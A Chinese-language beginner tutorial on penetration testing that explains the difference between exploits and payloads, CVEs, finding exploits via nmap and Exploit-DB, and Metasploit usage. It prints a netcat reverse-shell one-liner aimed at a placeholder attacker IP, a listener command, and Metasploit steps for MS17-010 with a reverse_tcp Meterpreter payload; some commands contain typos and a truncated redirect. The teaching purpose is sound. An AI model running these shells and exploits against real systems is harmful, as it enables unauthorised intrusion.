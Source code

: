 # 漏洞利用和有效载荷

> 在本文中，我将介绍漏洞利用和有效载荷的基础知识，以及两者的区别。在每次渗透测试中，你大概率都会需要漏洞利用并使用有效载荷。

## 漏洞利用和有效载荷简介

一些初学者对漏洞利用和有效载荷的区别感到困惑。事实上，它们在漏洞利用过程中具有两个截然不同的功能。如果没有漏洞利用，就无法传递有效载荷，如果没有有效载荷，就无法获得shell。

## 漏洞利用

漏洞利用是一段旨在利用计算机系统中漏洞的代码。由于这个定义涵盖了各种类型的系统，因此每种漏洞利用看起来都不一样。这些漏洞通常存在于现实世界的系统中，因为IT管理员经常忘记或缺乏资源来保持系统完全更新。也可能存在尚未发现的漏洞！

### 漏洞利用的类型

漏洞利用有很多种类型，例如：

- 缓冲区溢出漏洞

- SQL注入漏洞

- 跨站脚本（XSS）漏洞

- 跨站请求伪造（CSRF）漏洞

- 权限提升漏洞

- 拒绝服务（Dos）漏洞

- 钓鱼漏洞

- 0 Day漏洞

- 文件包含漏洞

- 恶意软件和木马漏洞

再次强调，目前细节并不重要，重要的是记住漏洞利用是滥用漏洞的，而漏洞可以有很多种。

### CVE

最后需要介绍的一个名词时CVE的定义。CVE（Common Vulnerabilities and Exposures，通用漏洞与暴露）是指利用已知漏洞的特定攻击或代码实例，并被分配了一个CVE标识符。

这个CVE由中央机构（如 MITRE）在研究人员或其他参与者识别出漏洞后分配。一旦漏洞被发现并存在漏洞利用可能，负责的供应商或组织通常会开发并发布修复漏洞的补丁或安全更新。

一旦我们开始寻找漏洞利用，我们经常会遇到这些CVE。

### 寻找漏洞利用点

通常，我们可以通过以下方法来寻找漏洞利用点：

#### 1. 扫描目标网络：

使用诸如nmap类似工具扫描目标网络，获取其主机和服务的详细信息，包括版本号。

#### 2. 搜索漏洞利用：

通过，以下几种方式查找与扫描结果匹配的漏洞利用：

- **谷歌搜索：** 使用一些关键词进行搜索，例如目标系统和服务版本号+漏洞利用（exploit）。

- **Metasploit：** 使用`search`命令在Metasploit框架内搜索漏洞利用模块。

- **Exploit-DB网站：** [https://www.exploit-db.com](https://www.exploit-db.com) 该网站提供大量漏洞利用的详细信息，其中大部分都包含对应的CVE编号。

#### 3. 漏洞利用脚本

找到漏洞利用点后，你可以选择自己编写脚本利用漏洞，也可以从Exploit-DB等网站获取现成的脚本。

一个著名的漏洞利用案例是EternalBlue，它利用了SMB服务器中的漏洞：[https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315) 。这些漏洞利用脚本通常使用Python等语言编写，在使用前可能需要修改脚本中的端口号或IP地址。幸运的是，这些漏洞利用脚本通常都附有详细的文档说明。

另外，除了使用独立的漏洞利用脚本外，你还可以使用Metasploit框架来运行漏洞利用并植入有效载荷到目标系统。稍后我会介绍Metasploit的具体用法，现在让我们了解以下什么是有效载荷。

## 有效载荷

虽然漏洞利用是利用系统中的漏洞，但有效载荷是在成功利用系统后发送的一段代码。一个基本的有效载荷示例是建立一个反向shell到目标系统的代码。简单来说，它可能看起来像这样：

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <Attacker ip> <Attacker listener port> > /tmp/
```

这要求你在你的系统上运行一个监听器。一个基本的监听器可以通过运行以下命令建立：

```bash
nv -lvnp <port>
```

一旦有效载荷被触发，你将获得一个反向shell。

重要的是要理解，我们用来获取系统shell的有效载荷很大程度上取决于目标系统上的操作系统、shell解释器语言，甚至编程语言。

虽然有些有效载荷是一行代码并手动部署，如上所示，但有些是使用自动化攻击框架生成的，例如Metasploit。

### Metasploit 自动生成有效载荷

本文不会深入讨论Metasploit的所有细节，但对于初学者来说，它绝对是最简单地使用漏洞利用和有效载荷的方法。一般步骤如下：

你可以通过`search` 命令来搜索漏洞利用，例如：

```bash
search ms17-010
```

![](E:\github\Awesome-SRC-experience\Fundamentals\img\0_uxAtWpmh7aTi3gF7.webp)

然后，使用`use <exploit id>` 选择漏洞利用。然后设置列出选项（`show option`）时所需的选项。

常用的参数有：

- **RHOSTS：** “远程主机”，目标系统的IP地址。可以设置单个IP地址或网络范围。你还可以使用一个文件，其中列出了目标，每个目标一行，使用`file:/path/of/the/target_file.txt` 。

- **RPORT：** “远程端口”，目标系统上运行漏洞应用程序的端口。

- **LHOST：** “本地主机”，攻击机器（你的攻击盒子或Kali Linux）的IP地址。

- LPORT：“本地端口”，你将用于反向shell连接回的端口。这是攻击机器上的一个端口。

你可以通过运行`set <参数名称> <值>` 来设置这些参数。

![](E:\github\Awesome-SRC-experience\Fundamentals\img\0_PI4oKf2qg8i_NmQf.webp)

一旦你设置了漏洞利用选项，就可以选择要使用的有效载荷。Metasploit中有两种不同类型的有效载荷：

- **Singles：** 自包含的有效载荷（添加用户、启动notepad.exe等）,不需要下载额外的组件即可运行。

- **Staged：** 分阶段的有效载荷首先在目标系统上上传一个启动器，然后下载其余的有效载荷（阶段）。这提供了一些优势，因为有效载荷的初始大小相对较小，使得有效载荷不太可能被发现。

使用`show payloads` 命令列出所选漏洞的利用模块可用的有效载荷。你可能想知道有效载荷是分阶段的还是单一的。如果我们查看：`windows/shell/reverse_tcp` 和 `windows/shell_reverse_tcp`，带有正斜杠的是“分阶段”有效载荷，带下划线的是“单一”有效载荷。

一旦你找了喜欢的有效载荷，可以使用`set payload` 命令，后跟要使用的有效载荷名称。

```bash
set payload windows/meterpreter/reverse_tcp
```

当你完成所有设置后，就可以运行了。

![](E:\github\Awesome-SRC-experience\Fundamentals\img\0_JrGXTONNWSaip72w.webp)

一旦成功利用漏洞，就会创建一个会话。这是目标系统和Metasploit之间建立的通信通道。现在你可以提升你的权限了。

还有一点需要注意，你也可以使用Metasploit框架中的MSFvenom创建自己的有效载荷。如果我们没有与目标的直接网络连接，并且需要通过电子邮件等方式传递有效载荷，MSfvenom是一个很好的选择。MSfvenom只创建有效载荷文件，而不提供像Metasploit这样的其他漏洞利用自动化选项。

## 总结

在本文中，我们介绍了漏洞利用和有效载荷的含义。

1. **漏洞利用：** 
- 漏洞利用是一段代码或一种技术，利用计算机系统或软件应用程序中的漏洞或者弱点。

- 其主要的目的是获得未经授权的访问、控制或破坏目标系统。
2. **有效载荷：** 
- 相反，有载荷是在成功利用漏洞后攻击者传递给受损系统的恶意代码或操作。

- 有效载荷的目的可以多种多样，从窃取数据到创建后门以进行未来的访问，甚至造成系统的损坏。
3. **Metasploit：**
- Metasploit 是一个用来自动化运行漏洞利用和有效载荷并获取系统访问权限的框架。

- 虽然，Metasploit对初学者来说很棒，但是不要过于依赖它，因为学习如何在没有这个强大框架的情况下了解一切工作原理是一个更好的选择。
